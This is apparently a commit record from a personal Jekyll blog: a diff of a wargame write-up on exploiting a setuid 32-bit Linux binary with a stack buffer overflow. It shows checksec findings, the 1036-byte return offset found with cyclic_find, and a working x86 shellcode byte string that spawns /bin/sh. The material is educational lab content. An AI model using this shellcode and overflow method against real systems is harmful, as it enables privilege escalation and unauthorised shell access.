

Before and after one commit to KevinCarroll7737/kevincarroll7737.github.io, a Jekyll site: the page built from _posts/2019-08-10-R0-Pwnage-Linux-level1.markdown, in a window 1280 px wide and 1400 px high, scrolled down 547 px. Shown: the whole window at 99% size, without its empty margins (203-1076 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Updated 2019-08-10-R0

````diff
--- a/_posts/2019-08-10-R0-Pwnage-Linux-level1.markdown
+++ b/_posts/2019-08-10-R0-Pwnage-Linux-level1.markdown
@@ -40,7 +40,10 @@ level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamic
 
 > Has a setuid (probably for the next level.. )
 
-> Is compiled for 32 processors (e.g.: x86 arch)
+> Is compiled for 32-bit processors and Intel x86 arch
+
+> Is little-endian (less significant bit)
+
 
 `# checksec /levels/level1`
 
@@ -63,7 +66,7 @@ level1: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamic
 
 > No PIE (Position Independant Executable): it tells the loader which virtual address it should use and keeps its memory layout quite static (e.g.: `0x8048000`)
 
-So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's an x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.
+So, basically, what you have to do is overflow the 1024-bit buffer to return to an address on the stack where's a Linux Intel x86 shellcode that generates a shell. Let's hope that the user will be level 2 and have launched this ELF using the `setuid`.
 
 1- Find the offset of the return adress
 
@@ -82,7 +85,7 @@ Program received signal SIGSEGV, Segmentation fault.
 cyclic_find(0x6b61616a)
 1036
 ```
-2- Get an x86 shellcode
+2- Get a [Linux Intel x86 shellcode](http://shell-storm.org/shellcode/)
 
 ```python
  len("\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")
````
